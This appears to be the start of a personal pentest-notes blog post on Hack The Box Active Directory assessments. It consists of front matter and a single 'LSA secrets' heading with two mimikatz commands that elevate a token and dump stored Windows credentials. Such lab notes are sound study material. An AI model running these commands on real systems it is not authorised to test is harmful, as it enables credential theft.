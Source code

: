 ```yaml
---
title: HTB Active Directory assessments Tips
author: Zhibeau
date: 2024-01-23 00:06:00 -0400
img_path: https:////raw.githubusercontent.com/Zhibeau/zhibeau.github.io/main/_posts/24_01_23/
categories: [Notes]
tags: [Cybersecurity, Pentest, Active Directory]
---
```


## LSA secrets
token::elevate
lsadump::secrets